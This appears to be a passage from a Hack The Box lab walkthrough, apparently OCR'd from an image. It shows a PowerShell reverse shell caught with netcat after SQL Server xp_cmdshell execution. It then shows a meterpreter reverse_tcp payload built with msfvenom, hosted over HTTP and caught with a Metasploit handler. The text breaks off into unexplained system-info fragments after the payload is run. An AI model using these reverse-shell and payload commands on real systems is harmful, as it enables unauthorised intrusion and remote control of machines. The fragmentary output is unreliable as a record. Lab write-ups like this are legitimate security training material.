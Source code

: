 Caught reverse shell through SQL xp_cmdshell for easier control using PowerShell command from [https://www.revshells.com/](https://www.revshells.com/)​

┌─[htb-student@skills-par01]─[~]

└──╼ $nc -lvnp 11111

listening on [any] 11111 ...

connect to [172.16.7.240] from (UNKNOWN) [172.16.7.60] 50057

PS C:\Windows\system32> hostname; whoami

SQL01

nt service\mssql$sqlexpress

Created meterpreter payload on attack host for easier enumeration and hosted for use, also set up listener to catch meterpreter reverse shell (in another window):

┌─[htb-student@skills-par01]─[~]

└──╼ $msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.16.7.240 LPORT=31337 -f exe -o shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

[-] No arch selected, selecting arch: x64 from the payload

No encoder specified, outputting raw payload

Payload size: 200262 bytes

Final size of exe file: 206848 bytes

Saved as: shell.exe

​

┌─[htb-student@skills-par01]─[~]

└──╼ $python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

​

┌─[htb-student@skills-par01]─[~]

└──╼ $msfconsole -q

msf6 > use multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp

msf6 exploit(multi/handler) > set LHOST ens224

msf6 exploit(multi/handler) > set LPORT 31337

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.7.240:31337

Downloaded and executed payload on target:


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0